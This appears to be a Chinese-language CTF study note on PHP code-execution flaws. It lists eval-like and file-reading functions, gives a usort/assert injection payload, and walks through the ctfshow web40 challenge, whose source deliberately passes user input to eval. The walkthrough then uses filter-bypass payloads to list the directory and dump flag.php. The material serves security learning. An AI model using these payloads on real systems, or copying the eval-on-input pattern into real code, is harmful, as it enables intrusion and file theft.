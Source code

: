 ## 代码执行漏洞

```php
应用程序在调用一些能够将字符串转换为代码的函数（如PHP中的eval）时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。
```

------

### 代码执行函数

```php
eval()
assert()
call_user_func()/call_user_func_array()
create_function()
usort()/uasort()
preg_replace()
array_map()
${php代码}
```

------

### 读取文件函数

```php
highlight_file() highlight_file() 函数对文件进行语法高亮显示
show_source() show_source() 函数对文件进行语法高亮显示。是highlight_file的别名
php_strip_whitespace() 用于返回已删除 PHP 注释以及空白字符的源代码文件，需要配合输出使用
file_get_contents() 把整个文件读入一个字符串中。
readfile() 函数读取一个文件，并写入到输出缓冲。
file() 函数把整个文件读入一个数组中。
fopen() fopen — 打开文件或者 URL,配合fread()使用
fread() 函数读取文件
include() 获取指定文件中存在的所有文本/代码/标记，并复制到使用 include 语句的文件中。
include_once()
require()
require_once()
popen() 函数打开进程文件指针。
fgets() 函数从文件指针中读取一行。
fpassthru() 函数从打开文件的当前位置开始读取所有数据，直到文件末尾（EOF）
fgetcsv() 函数从文件指针中读入一行并解析 CSV 字段
fgetss() 函数从打开的文件中读取一行并过滤掉 HTML 和 PHP 标记。
fscanf() 函数根据指定的格式对来自打开的文件的输入进行解析。
parse_ini_file() 函数解析一个配置文件（ini 文件），并以数组的形式返回其中的设置。貌似无法成功

highlight_file(("flag.txt"));
show_source(("flag.txt"));
echo (php_strip_whitespace("flag.txt"));
echo file_get_contents(("flag.txt"));
readfile(("flag.txt"));
var_dump(file(("flag.txt")));    用print_r也可以打印数组
print(fread(fopen("flag.txt","r"),filesize("flag.txt")));    需要配合输出函数使用
include("flag.txt");
fread(popen("flag.txt","r"),filesize('flag.txt'));  貌似不用输出函数也可以
echo fgets(fopen("flag.txt","r"),1024);     需要配合输出函数使用
fpassthru(fopen("flag.txt","r"));
var_dump(fgetcsv(fopen("flag.txt","r")));    需要配合打印数组函数使用
echo fgetss(fopen("flag.txt","r"));     需要配合输出函数使用
var_dump(fscanf(fopen("flag.txt","r"),"%s"));    需要配合打印数组函数使用
```

------

### 代码执行函数说明

- eval()

  ![image-20220110210913313](image/代码执行/image-20220110210913313.png)

  传入的必须是有效的 PHP 代码。所有的语句必须以分号结尾。

  return 语句会立即中止当前字符串的执行。

  代码执行的作用域是调用 eval() 处的作用域。因此，eval() 里任何的变量定义、修改，都会在函数结束后被保留。

- assert()

  ![image-20220110211022516](image/代码执行/image-20220110211022516.png)

- call_user_func()/call_user_func_array()

  ![image-20220110211037935](image/代码执行/image-20220110211037935.png)

  可以传递任何内置函数或用户自定义函数，除了语言结构如array(),echo(),empty(),eval(),exit(),isset(),list(),print(),unset()

- create_function()

  ![image-20220110211054731](image/代码执行/image-20220110211054731.png)

- usort()/uasort()

  ![image-20220110211109215](image/代码执行/image-20220110211109215.png)

  例如：

  ```php
  ?1[]=phpinfo()&1[]=123&2=assert
  usort($_GET[1],'assert');
  ```

- ${php代码}

  例如：`${phpinfo()};`

- ob_start()

  ![image-20220110211125522](image/代码执行/image-20220110211125522.png)

------

### 代码执行CTF题目

#### ctfshow web40题

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

扫描目录文件

```php
?c=print_r(array_reverse(scandir(pos(localeconv()))));
```

![image-20211126173236613](image/代码执行/image-20211126173236613.png)

查看倒数第二个元素。直接将数组逆序在将指针调整下一个

```php
?c=print_r(array_reverse(scandir(pos(localeconv()))));
```

![image-20211126173642782](image/代码执行/image-20211126173642782.png)

最后查看flag.php文件

```php
?c=show_source(next(array_reverse(scandir(current(localeconv())))));
```

![image-20211126173414723](image/代码执行/image-20211126173414723.png)

